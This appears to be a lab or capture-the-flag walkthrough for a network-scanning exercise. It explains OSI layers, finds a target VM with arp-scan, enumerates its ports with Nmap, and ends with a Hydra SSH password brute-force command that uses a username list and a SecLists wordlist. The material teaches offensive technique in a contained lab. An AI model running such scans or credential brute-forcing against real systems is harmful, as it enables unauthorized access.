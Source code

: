 # SCAN
## 1. Context and Terminology
### 1.1 The OSI Layers in Brief
- Application Layer (HTTP, TLS, SSH, etc.)
Where the “user-facing” parts of networking happen (web traffic, email, etc.).

- Transport Layer (TCP, UDP)
Responsible for the idea of “ports” (e.g., port 80 for HTTP, port 443 for HTTPS, port 22 for SSH).
TCP ensures reliability (handshakes, guaranteed delivery).

- Network Layer (IP)
Responsible for IP addressing and routing. This is where IP addresses (e.g., 192.168.0.10) live.

- Link Layer (Ethernet / Wi-Fi and ARP)
Local network communication, including MAC addresses and ARP (Address Resolution Protocol).

### 1.2 What Is Scanning?
- Host Discovery (Are you alive?)
At the link layer, ARP is key on a local network (subnet). ARP stands for Address Resolution Protocol, which maps an IP address to a MAC address.
At higher layers, “ping scans” or “ICMP echo requests” can also discover hosts.

- Port Discovery (Which ports are open?)
Once you know a host is alive, you typically run a TCP scan with a tool like Nmap to see which ports (services) are available and listening.

### 1.3 Your Setup (Simplified)
- VM #1: 01_scan_laptop (you control this)
- VM #2: 01_scan_RRF-CONTROL (the target)

## 2. Getting Started on 01_scan_laptop
### 2.1 Log In via SSH
```bash
ssh -p 10122 root@127.0.0.1
```
![image](https://github.com/user-attachments/assets/a37ef25a-30be-4045-9cee-48bd5090fe9d)
```bash
ip a
```
![image](https://github.com/user-attachments/assets/ae7b99cc-239f-47de-b92a-069f0fdba648)

## 3. Step 1 — Find the Server’s IP via ARP
### 3.1 Determine Subnet
```bash
ip addr show enp0s8
```
![image](https://github.com/user-attachments/assets/271fabec-d66b-49e7-a969-0e56eb886cd6)
### 3.2 ARP Scan with arp-scan
```bash
arp-scan --interface=enp0s8 192.168.0.0/16
```
```
# sudo arp-scan --interface=enp0s8 192.168.0.0/16
-bash: sudo: command not found
# arp-scan --interface=enp0s8 192.168.0.0/16
Interface: enp0s8, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9.5 with 65536 hosts (https://github.com/royhills/arp-scan)
192.168.23.42   08:00:27:d0:e5:21       Cadmus Computer Systems
```
## 4. Step 2 — Identify Open Ports on the Target
### 4.1 Basic TCP Port Scan with Nmap
- -sS
A “SYN scan,” the most common and somewhat stealthier TCP scan.
- -p-
Scans all ports (1 through 65535). This is slower, but ensures you don’t miss any potential open port.
- -T4
Increases speed (timing template “4” is fairly aggressive). Keep in mind on a 10 Mbps network, it can still take a while.

```bash
nmap -sS -p- -T4 192.168.23.42
nmap -sS 192.168.23.42 -T4
```
![image](https://github.com/user-attachments/assets/8141ba28-8f07-44ec-9f39-aaf6111aee40)
![image](https://github.com/user-attachments/assets/72cb2057-d147-4860-9cf4-5206f096b047)

- found an open port: 4223/tcp on 192.168.23.42
![image](https://github.com/user-attachments/assets/cd099ed5-2e2a-4581-86da-e475366dbb51)

### 4.2 Service & Version Detection
```bash
nmap -sS -sV -p- -T4 192.168.56.XXX
```
```
Nmap scan report for 192.168.23.42
Host is up (0.00020s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
4223/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
MAC Address: 08:00:27:D0:E5:21 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1388.52 seconds
```

## 5. Step 3 — “Find a Way In”
![image](https://github.com/user-attachments/assets/eaa17001-496e-42c0-8ea2-7f0e67ebb270)

```bash
cat <<EOF > usernames.txt
rrf-control
admin
root
trinity
neo
EOF
```

```bash
 hydra -L usernames.txt -P /SecLists/Passwords/xato-net-10-million-passwords-1000.txt -t 4 -vV ssh://192.168.23.42 -s 4223
```




